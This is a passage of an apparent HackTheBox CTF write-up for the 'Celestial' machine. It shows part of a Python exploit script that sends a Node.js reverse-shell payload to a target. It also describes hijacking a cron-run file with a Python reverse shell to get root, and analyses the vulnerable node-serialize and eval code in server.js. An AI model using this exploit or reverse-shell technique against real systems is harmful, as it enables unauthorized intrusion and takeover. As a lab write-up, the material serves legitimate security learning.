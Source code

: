 ```py
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=True)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.ipaddress
    lport = args.port
    
    '''Here we call the functions'''
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Let's mount the payload
    # Let's set the nodejs payload
    nodejs_payload = charencode(mountPayload(lhost,lport))
    # Let's trigger the reverse
    sendRequest(rhost,nodejs_payload)
    
if __name__ == '__main__':
    main()
```

# sun -> root

Now, let's start the privilege escalation to get a root shell on this box

We run [pspy](https://github.com/DominicBreuker/pspy) to get what is running as cron on this box

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-11-HackTheBox-Celestial/2021-09-11-HackTheBox-Celestial%2002:40:18.png)

After some minutes it comes to our terminal

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-11-HackTheBox-Celestial/2021-09-11-HackTheBox-Celestial%2002:41:56.png)

So, hijack that file. Create a python rev shell one liner and put there.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-11-HackTheBox-Celestial/2021-09-11-HackTheBox-Celestial%2002:49:56.png)

And wait for the reverse shell when it become executed and we become root

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-11-HackTheBox-Celestial/2021-09-11-HackTheBox-Celestial%2002:51:46.png)

# Code Analysis

Now let's perform a small code analysis on `server.js` which is running on the server

```js
var express = require('express');
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var app = express();
app.use(cookieParser())
 
app.get('/', function(req, res) {
 if (req.cookies.profile) {
   var str = new Buffer(req.cookies.profile, 'base64').toString();
   var obj = serialize.unserialize(str);
   if (obj.username) { 
     var sum = eval(obj.num + obj.num);
     res.send("Hey " + obj.username + " " + obj.num + " + " + obj.num + " is " + sum);
   }else{
     res.send("An error occurred...invalid username type"); 
```